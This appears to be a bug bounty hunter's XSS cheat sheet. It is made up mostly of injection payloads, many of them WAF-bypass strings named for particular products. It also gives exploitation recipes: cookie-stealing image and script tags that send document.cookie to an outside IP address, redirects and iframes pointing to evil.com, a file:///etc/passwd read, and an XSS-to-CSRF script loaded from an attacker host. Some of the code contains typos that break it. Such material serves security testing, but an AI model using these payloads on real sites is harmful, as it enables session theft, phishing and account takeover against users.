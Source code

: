# XSS

### Cross-site scripting (XSS) is a type of computer security vulnerability typically found in web applications. XSS enables attackers to inject client-side scripts into web pages viewed by other users.

**To Test any Input Field** ⇒ `h0tak88r’”><`

[XSS Polyglot payloads (github.com)](https://gist.github.com/michenriksen/d729cd67736d750b3551876bbedbe626)

- **DOM-based XSS**
    
    ```bash
    <html
    	<h1> You Searched for:</h1> 
    		 <div id ="searchquery"> </div> 
    			 <script>  **var** keyword = location.**search**.**substring**(3);  
    				document.querySelector('searchquery').innerHTML = keyword;  <script> 
    </html
    ```
    
    The above source code is an example of DOM based XSS.
    
- **Stored XSS via SVG file**
    
    is an example of a basic SVG file that will show a picture of a `rectang`
    
    ```bash
    <svg width="400" height="110">  <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" /> </svg><!--This means you can place an SVG file in an image tag and it will render perfectly:--><img src="rectangle.svg" alt="Rectangle" height="42" width="42"><!-- An example SVG file with an alert XSS payload can be found below:--><?xml version="1.0" standalone="no"?> <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd"><svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg"> <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" /> <script type="text/javascript"> alert("Ghostlulz XSS"); </script></svg>
    ```
    
- **Stored XSS in (input-link) Field**
    - [ ]  Test if Hecheck For charackter or he search for [ http, https]
        - [ ]  `xhttps://google.com`
    - [ ]  `javascript:alert(0)//https://google.com`
    - [ ]  /?url=`javascript:alert(0)//https://google.com`
- **XSS Reflected in JSON Format and “{}” Forbidden**
    - [ ]  `/?q=test%2Aconsole.log(1337)//’;`
    
    ![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/79122539-c39c-4470-8cf3-d64c90b9eb83/Untitled.png)
    
- **XSS Reflected in `<link>` OR `<input type=hidden>` attribute when add param**
    - [ ]  `/?lol=h0tak88r’accesskey=’x’onclick=’alert(0)’` But the Victim must click `ALT+SHIFT+X`
    
    ![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/bfa2cede-adb8-42af-8323-f7f92fac3192/Untitled.png)
    
- **XSS in email section**
    
    ```html
    "hello<form/><!><details/open/ontoggle=alert(1)>"@gmail.com
    ```
    
- **XSS for .JSON endpoint [ bypass (`.html`)and `WAF` ]**
    - [ ]  `“resource Type” : “silent:nonexitsting”` Function
        
        ![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/8b65eb11-ffe7-46d3-ab2f-53ef70f025bf/Untitled.png)
        
    - [ ]  Use `url-encoded` payload with .`htm` extension and `//`   for break directory block too , So the server so the server didn’t understand my request fully
    - [ ]  POC
    
    ```html
    https://www.redacted.com/etc/designs/redacted.json//%3Csvg%20onload=alert(document.domain)%3E.html
    ```
    
- **XSS Bypass for Rich Text Editors**
    - [ ]  First, try all the built-in functions like bold, links, and embedded images.
    - [ ]  `<</p>iframe src=javascript:alert()//`
    - [ ]  `<a href="aaa:bbb">x</a>`
    - [ ]  `<a href="j%26Tab%3bavascript%26colon%3ba%26Tab%3blert()">x</a>`
- **WAF Bypass**
    
    ```html
    <style>*{background-image:url('\6A\61\76\61\73\63\72\69\70\74\3A\61\6C\65\72\74\28\6C\6F\63\61\74\69\6F\6E\29')}</style>
    %3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%22%58%53%53%22%29%3C%2F%73%63%72%69%70%74%3E
    [̕h+͓.＜script/src=//evil.site/poc.js>.͓̮̮ͅ=sW&͉̹̻͙̫̦̮̲͏̼̝̫́̕
    ---------------------------------------------
    "><input/onauxclick="[1].map(prompt)">
    <img src=x onerror=eval(atob('YWxlcnQoJ0kgb25seSB3cml0ZSBsYW1lIFBvQ3MnKQ==')) />
    '"--><Body onbeforescriptexecute="[1].map(confirm)">
    '-prompt.call(window, 'xss')-'
    <svg+onload=innerHTML=URL,outerHTML=textContent>#&ltimg/src/onerror=alert(domain)&gt
    <svg+onload=innerHTML=URL,outerHTML=textContent>#<img/src/onerror=alert(domain)>
    ---------------------------------------------------------
    <img src=x onVector=X-Vector onerror=alert(1)>
    %2sscript%2ualert()%2s/script%2u
    xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
    -------------------------------------------------
    toString=\u0061lert;window+' '
    aaaaa<h1 onclick=alert(1)>test
    <noscript><p title="</noscript><img src=x onerror=alert(document.domain)>">
    ---------------------------------------------------------------
    # Unicode + HTML
    <svg><script>&#x5c;&#x75;&#x30;&#x30;&#x36;&#x31;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x63;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x35;&#x5c;&#x75;&#x30;&#x30;&#x37;&#x32;&#x5c;&#x75;&#x30;&#x30;&#x37;&#x34;(1)</script></svg>
    # URL
    <a href="javascript:x='%27-alert(1)-%27';">XSS</a>
    # Hex
    <script>eval('\x61lert(1)')</script>
    ----------------------------------------------------------
    # Only lowercase block
    <sCRipT>alert(1)</sCRipT>
    
    # Break regex
    <script>%0aalert(1)</script>
    
    # Double encoding
    %2522
    
    # Recursive filters
    <scr<script>ipt>alert(1)</scr</script>ipt>
    
    # Inject anchor tag
    <a/href="j&Tab;a&Tab;v&Tab;asc&Tab;ri&Tab;pt:alert&lpar;1&rpar;">
    
    # Bypass whitespaces
    <svg·onload=alert(1)>
    
    # Change GET to POST request
    
    # Imperva Incapsula
    %3Cimg%2Fsrc%3D%22x%22%2Fonerror%3D%22prom%5Cu0070t%2526%2523x28%3B%2526%25 23x27%3B%2526%2523x58%3B%2526%2523x53%3B%2526%2523x53%3B%2526%2523x27%3B%25 26%2523x29%3B%22%3E
    <img/src="x"/onerror="[JS-F**K Payload]">
    <iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';><img/src=q onerror='new Function`al\ert\`1\``'>
    
    # WebKnight
    <details ontoggle=alert(1)>
    <div contextmenu="xss">Right-Click Here<menu id="xss" onshow="alert(1)">
    
    # F5 Big IP
    <body style="height:1000px" onwheel="[DATA]">
    <div contextmenu="xss">Right-Click Here<menu id="xss" onshow="[DATA]">
    <body style="height:1000px" onwheel="[JS-F**k Payload]">
    <div contextmenu="xss">Right-Click Here<menu id="xss" onshow="[JS-F**k Payload]">
    <body style="height:1000px" onwheel="prom%25%32%33%25%32%36x70;t(1)">
    <div contextmenu="xss">Right-Click Here<menu id="xss" onshow="prom%25%32%33%25%32%36x70;t(1)">
    
    # Barracuda WAF
    <body style="height:1000px" onwheel="alert(1)">
    <div contextmenu="xss">Right-Click Here<menu id="xss" onshow="alert(1)">
    
    # PHP-IDS
    <svg+onload=+"[DATA]"
    <svg+onload=+"aler%25%37%34(1)"
    
    # Mod-Security
    <a href="j[785 bytes of (&NewLine;&Tab;)]avascript:alert(1);">XSS</a>
    1⁄4script3⁄4alert(¢xss¢)1⁄4/script3⁄4
    <b/%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%35mouseover=alert(1)>
    
    # Quick Defense:
    <input type="search" onsearch="aler\u0074(1)">
    <details ontoggle="aler\u0074(1)">
    
    # Sucuri WAF
    1⁄4script3⁄4alert(¢xss¢)1⁄4/script3⁄4
    
    # Akamai
    1%3C/script%3E%3Csvg/onload=prompt(document[domain])%3E
    <SCr%00Ipt>confirm(1)</scR%00ipt>
    # AngularJS
    {{constructor.constructor(alert 1 )()}}
    ```
    
- **XSS Exploitation**
    
    ```html
    # Some XSS exploitations
    
    ## host header injection through xss
    hostheader: bing.com">script>alert(document.domain)</script><"
    
    ## URL redirection through xss
    document.location.href="http://evil.com"
    
    ## phishing through xss - iframe injection
    <iframe src="http://evil.com" height="100" width="100"></iframe>
    
    ## Cookie stealing through xss
    https://github.com/lnxg33k/misc/blob/master/XSS-cookie-stealer.py
    https://github.com/s0wr0b1ndef/WebHacking101/blob/master/xss-reflected-steal-cookie.md
    <script>var i=new Image;i.src="http://172.30.5.46:8888/?"+document.cookie;</script>
    <img src=x onerror=this.src='http://172.30.5.46:8888/?'+document.cookie;>
    <img src=x onerror="this.src='http://172.30.5.46:8888/?'+document.cookie; this.removeAttribute('onerror');">
    
    ## file upload  through xss
    upload a picturefile, intercept it, change picturename.jpg to xss paylaod using intruder attack
    
    ## remote file inclusion (RFI) through xss
    php?=http://brutelogic.com.br/poc.svg - xsspayload
    
    ## convert self xss to reflected one
    copy response in a file.html -> it will work
    
    # XSS to SSRF
    <esi:include src="http://yoursite.com/capture" />
    
    # XSS to LFI
    <script>	x=new XMLHttpRequest;	x.onload=function(){ document.write(this.responseText)	};	x.open("GET","file:///etc/passwd");	x.send();</script>
    
    <img src="xasdasdasd" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
    <script>document.write('<iframe src=file:///etc/passwd></iframe>');</scrip>
    ```
    
    ### XSS to CSRF [ [https://link.medium.com/ct4S2BiJYwb](https://link.medium.com/ct4S2BiJYwb) ]
    
    POC : `[https://vulnerable.site/profile.php?msg=<](https://vulnerable.site/profile.php?msg=<script)scriptsrc=’https://attacker.site/attacker/script.js’></script>`
    
    ```jsx
    var csrfProtectedPage ='https://vulnerable.site/profile.php'
    var csrfProtectedForm ='form'
    //get valid token for current request
    var html = get(csrfProtectedPage);
    	document.getElementbyId(csrfProtectedForm);
    var token = form.token.value;
    
    //Build with valid token 
    document.body.innerHTML+='form id="myform"action="+csrfProtectedPage+"method="POST">'+'<input id="password"name="name"value="hacked">'+'</form>';
    
    // Auto submit form 
    document.forms["myfor"].submit();
    function get(url){
    var xmlHttp = new XMLHttpRequest();
    xamlHttp.open("GET", url.false);
    xmlGttp.send(null)
    return xmlHttp.responseText;
    }
    ```
    
- **XSS Polygots**
